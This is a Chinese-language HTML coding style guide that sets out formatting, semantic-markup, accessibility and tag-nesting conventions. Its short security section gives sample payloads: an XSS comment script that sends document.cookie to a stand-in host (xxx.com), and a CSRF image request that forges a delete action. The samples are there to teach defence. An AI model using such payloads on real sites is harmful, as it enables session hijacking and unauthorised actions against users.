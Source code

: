 #HTML编码规范

## [1.书写规范](#guide)

* 只使用小写，包括标签名、属性名、属性值(一些可以自定义的字符串属性值除外)

```html
<!-- 不推荐 -->
<A HREF="/">Home</A>

<!-- 推荐 -->
<img src="google.png" alt="Google">
```

* 为每个块级元素或表格元素标签新起一行，并且对每个子元素进行缩进

* 确保你的IDE使用的是UTF-8编码来保存文件的，在定义页面的编码时使用 `<meta charset="utf-8">`

* 文档类型: `<! DOCTYPE html>`

* 使用规范化的html

* 使用语义化的html标签，根据用途来选择标签

* 把多媒体元素可知化。像图片、视频、动画等多媒体元素，要有相关的文字来体现其内容，比如<img>可以使用`alt`属性来说明其图片内容

```html
<!-- 不推荐 -->
<img src="sheet.png">

<!-- 推荐 -->
<img src="sheet.png" alt="screenshot".>

```

* 确保页面的结构、样式、行为三者相分离。确保文档或模板中只包含`html`, 把用到的样式都写到样式表文件中，把脚本文件都写到`js`文件中。

```html
<!DOCTYPE html>
<html>
<head lang="en">
    <meta charset="UTF-8">
    <title></title>
    <link rel="stylesheet" href="http://fonts.googleapis.com/css?family=Open+Sans:300,400,700"/>
</head>
<body>
    <span href="#" class="button" id="toggle-login">Log in</span>
</div>
    <script src="http://code.jquery.com/jquery-2.1.3.js"></script>
</body>
</html>
```

## [2.最佳实践](#practice)

### 2.1 保持标签闭合

```html
<!-- bad -->
<li>Some text here
<li>Some new text

<!-- good -->
<ul>
    <li>Some text here</li>
</ul>
```
### 2.2 尽量不要使用内联样式

```html
<!-- bad -->
<p style="color:#ccc">An example to illustrate inline style in html</p>

<!-- good -->
<p class="html_bp">An example to illustrate inline style in html</p>
```

### 2.3 使用连续的标题

```html
<!-- bad -->
<h1>This is the topmost heading</h1>
<h3>This is a sub_heading underneath the topmost heading</h3>

<!-- good -->
<h1>This is the topmost heading</h1>
<h2>This is a sub_heading underneath the topmost heading</h2>
```

### 2.4 在合适的地方使用合适的标签
HTML标签是构造规范内容结构的关键。例如 `<em>` 标签用来强调重点内容。 `<p>`标签适用于突出文章段落。如果想要在段落间加空行,就不要使用`<br/>`

```html
<!-- bad -->
<p>段落1<br/>
段落2</p>

<!-- good -->
<p>段落1</p>
<p>段落2</p>
```

### 2.5 为图片标签添加alt属性

```html
<!-- bad -->
<img id="logo" src="images/bgr_logo.png"/>

<!-- good -->
<img id="logo" src="images/bgr_logo.png" alt="Tom - Web Development"/>
```

### 2.6 添加适当的title属性
```html
<!-- bad -->
<a href="javascript:;">go away</a>

<!-- good -->
<a href="javascript:;" title="go away">go away</a>
```

### 2.7 IE兼容模式
```html
<!--推荐-->
<meta http-equiv="X-UA-Compatible" content="IE=Edge">
```

### 2.8 对于Boolean类型的标签属性，可以不用赋值
```html
<!--推荐-->
<input type="checkbox" name="" id="" checked>
checked属性可以不用写checked="checked"
```

### 2.9 标签嵌套规范
1) 块元素可以包含内联元素或某些块元素, 但内联元素却不能包含块元素, 它只能包含其它的内联元素
```html
<!--good-->
<div>
    <span></span>
</div>

<!--bad-->
<span>
     <div></div>
 </span>
```

2) p元素不能包含块元素
```html
<!--good-->
<p>
    <span></span>
</p>
<div>
    <p></p>
</div>

<!--bad-->
<p>
    <div></div>
</p>
<p>
    <ul>
        <li></li>
    </ul>
</p>
```

## [3.安全](#safe)
### 3.1 XSS(Cross Site Scripting)
对于任何用户输入的内容，如果会显示在页面上，就需要做HTML的标签转义

比如聊天信息，或者用户评论，用户输入如下内容：
```js
我的评论<script>alert("弹窗")</script>
```
```js
//在正常的站点(a.com)输入如下评论, domain = a.com
我的评论<script>
var cookies = document.cookie, img = new Image();
img.src = 'http://xxx.com/?cookies='+encodeURIComponent(cookies);
document.body.appendChild(img);
</script>
```

### 3.2 CSRF(Cross-site request forgery)
CSRF与XSS有些类似，不过CSRF主要是利用权限管理的漏洞，如果登录会话在浏览器关闭前一直保持，其它用户可以通过构造URL的方式跨站伪造用户请求。

CSRF的防范点主要在后端，但CSRF的漏洞利用是在浏览器端。

```js
//在第三方的网站(b.com)插入对正常网站(a.com)的请求, domain = b.com
var img = new Image();
img.src = 'http://a.com/?action=delete&id=xxx';
document.body.appendChild(img);
```

## [4.参考文档](#reference)
- [dyygtfx/FeCodeGuide](https://github.com/dyygtfx/FeCodeGuide)
- [tsq/front-end-principles](https://github.com/tsq/front-end-principles/)